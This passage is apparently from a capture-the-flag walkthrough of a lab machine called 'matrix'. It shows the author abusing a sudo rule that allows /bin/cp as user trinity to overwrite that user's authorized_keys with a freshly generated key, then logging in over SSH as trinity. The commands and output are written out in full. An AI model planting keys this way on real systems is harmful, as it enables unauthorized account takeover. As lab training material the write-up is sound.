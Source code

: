 ```
guest@porteus:/tmp$ sudo -l
User guest may run the following commands on matrix:
    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
    (trinity) NOPASSWD: /bin/cp
```

So, I thought of generating a ssh key and replacing the existing one on trinity user. so, we could access it with the password we generated 
```
guest@matrix:~$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/guest/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Passphrases do not match.  Try again.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/guest/.ssh/id_rsa.
Your public key has been saved in /home/guest/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:yASWkvV4ElQOhY5tWA+7Tf8v3wqaHIHmGgbAMS7ebGg guest@matrix
The key's randomart image is:
+---[RSA 2048]----+
| o +B=o          |
|o =.=B           |                                                                                               
|oo Bo+=          |                                                                                               
|o.* ==oo         |                                                                                               
| E.= +=.S        |                                                                                               
|. ...o. ..       |                                                                                               
|    o . ...      |                                                                                               
|   . o . +o. .   |                                                                                               
|    .   +  ++..  |                                                                                               
+----[SHA256]-----+                                                                                               
guest@matrix:~$ cat /home/guest/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCayKe/0XP1mAa5aDRAEC1GDkg8SdQ3iFjxl1tLeeL3nk5MmfW7yH1gzeZDvRKojVnv92cGKwapVq5bFEuXSAm3djXM2F4iuuIFNOux1zsxTJnwaw6wEUiFmy0M3SrK16yY/Ayj7YsgMFCmGEq8PLSmZ+vt3rkgtYWyHPtPvlCrb2jcw9Wc7hcoUZRHjs6UTIOZpFVON4QBlweDMmR0WcYLTAjLIviqDHcW7e1dWU24h5keMxecKk6Xdy03Yw7Je0Q0/Ho9ANcCoH+OJvKi901LoMtIeW3Igvvs5/K0+JANiPjb5PEsukZEI5/xJMpqXJt+N38XqkKP10TbhxC9qZzj guest@matrix                                                               
guest@matrix:~$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCayKe/0XP1mAa5aDRAEC1GDkg8SdQ3iFjxl1tLeeL3nk5MmfW7yH1gzeZDvRKojVnv92cGKwapVq5bFEuXSAm3djXM2F4iuuIFNOux1zsxTJnwaw6wEUiFmy0M3SrK16yY/Ayj7YsgMFCmGEq8PLSmZ+vt3rkgtYWyHPtPvlCrb2jcw9Wc7hcoUZRHjs6UTIOZpFVON4QBlweDMmR0WcYLTAjLIviqDHcW7e1dWU24h5keMxecKk6Xdy03Yw7Je0Q0/Ho9ANcCoH+OJvKi901LoMtIeW3Igvvs5/K0+JANiPjb5PEsukZEI5/xJMpqXJt+N38XqkKP10TbhxC9qZzj guest@matrix" > authorized_keys  
guest@matrix:~$ sudo -u trinity /bin/cp authorized_keys /home/trinity/.ssh/authorized_keys
guest@matrix:~$ ssh trinity@192.168.198.140 -p 6464 -t bash
The authenticity of host '[192.168.198.140]:6464 ([192.168.198.140]:6464)' can't be established.
ECDSA key fingerprint is SHA256:BMhLOBAe8UBwzvDNexM7vC3gv9ytO1L8etgkkIL8Ipk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[192.168.198.140]:6464' (ECDSA) to the list of known hosts.
Enter passphrase for key '/home/guest/.ssh/id_rsa': 
bash-4.4$ id
uid=1001(trinity) gid=1001(trinity) groups=1001(trinity)
```
